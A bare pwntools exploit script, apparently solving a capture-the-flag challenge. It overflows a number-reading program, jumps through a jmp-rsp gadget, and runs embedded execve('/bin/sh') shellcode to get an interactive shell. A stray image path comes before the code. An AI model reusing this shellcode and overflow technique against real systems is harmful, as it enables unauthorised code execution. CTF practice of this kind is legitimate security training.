 ```python

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget

jrsp = 0x0040078A

# elf, libc
# shellcode = asm(shellcraft.sh())
shellcode = '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05\x00\x00'

buf = 0x7fffffffda90
ret = 0x7fffffffdaf8

# rop1
ru('Let\'s Pwn me with numbers!\n')
for i in range(11):
    sl(str(i))
sl(str(0x0000000b00000000))
sl(str(0xdeadbeef))
sl(str(jrsp))

sh = []
for i in range(len(shellcode)/8):
    sh.append(u64(shellcode[8*i:8*i+8]))

for i in sh:
    print str(i),len(str(i))
    sl(str(i))

# debug('b *0x0000000000400766')
for i in range(3):
    sl('1')

p.interactive()
```
